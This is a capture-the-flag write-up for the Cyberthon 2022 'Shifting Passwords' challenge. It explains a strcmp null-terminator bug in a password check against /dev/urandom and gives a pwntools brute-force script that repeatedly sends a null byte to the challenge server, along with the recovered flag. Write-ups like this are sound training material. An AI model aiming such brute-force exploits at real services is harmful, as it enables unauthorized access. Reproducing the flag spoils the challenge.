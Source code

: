 # Shifting Passwords
- 981 points

Description
---
Here it is, a secret APOCALYPSE data bank! We even found a binary that close resembles the password verification process.

The only problem is...the password's always changing, at least we think so.

Password cracking is hard, but what if the passwords are never the same...

Interact with the service using:

```nc chals.cyberthon22f.ctf.sg 10201```

Files: [shifting_passwords](./shifting_passwords)

Solution
---
This challenge makes use of bruteforcing `/dev/urandom` thanks to the null terminating string logic bug with strcmp.

The password cracking implies that there is some bruteforcing needed. 

Looking at the main function decompiled in IDA,

```c
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Welcome APOCALYPSE! Enter the password here: ");
  fgets(s, 128, stdin);
  s2 = (char *)generate_random_password();
  if ( !strcmp(s, s2) )
  {
    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
      printf("Could not find flag.txt!");
      return 1;
    }
    fseek(stream, 0LL, 2);
    v6 = ftell(stream);
    fseek(stream, 0LL, 0);
    ptr = malloc(v6);
    fread(ptr, v6, 1uLL, stream);
    fclose(stream);
    printf("%s", (const char *)ptr);
  }
  else
  {
    puts("Wrong password!");
  }
  free(s2);
  return 0;
}
```

Despite the presence of `malloc()` and `free()`, this is not a heap challenge, and the heap is being correctly used.

Checking the `generate_random_password()` function,

```c
char *generate_random_password()
{
  char *s; // [rsp+0h] [rbp-10h]
  FILE *stream; // [rsp+8h] [rbp-8h]

  stream = fopen("/dev/urandom", "rb");
  s = (char *)malloc(0x80uLL);
  fgets(s, 128, stream);
  fclose(stream);
  return s;
}
```
A bit of googling shows that /dev/urandom is a special file used to generate random numbers.

A bit more googling for "/dev/urandom ctf" reveals that there is a small chance that /dev/urandom will return a first null byte. [https://ctftime.org/writeup/24905]

`strcmp()` makes use of null terminating strings to determine the end of a string. More explanation [here](https://github.com/absurdtiger/Sieberrsec-CTF-3.0/tree/main/Pwn/warmup).

So we can just bruteforce for the small chance a null byte is the first one in the string that returns from `/dev/urandom`.

```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        print(p.recvall())
        p.close()
```
```
$ python3 exploit.py > a.log
$ cat a.log | grep Cyberthon
```
I cleaned up the script because I like wasting time
```python
from pwn import *
context.log_level='debug'

for i in range(1000):
        p = connect("chals.cyberthon22f.ctf.sg",10201)
        p.sendlineafter("Welcome APOCALYPSE! Enter the password here:", b"\x00")
        out = str(p.recvall())
        p.close()
        if out.find("Cyberthon") != -1:
                log.info(out)
                break
        else:
                continue
```

`Cyberthon{nu11_t3rm1n4t0r5}`

Remarks
---
- initially thought it was heap because malloc() and free() but it didn't mean anything and looked like it was properly used; I do wonder if it's possible to solve this challenge by exploiting the heap
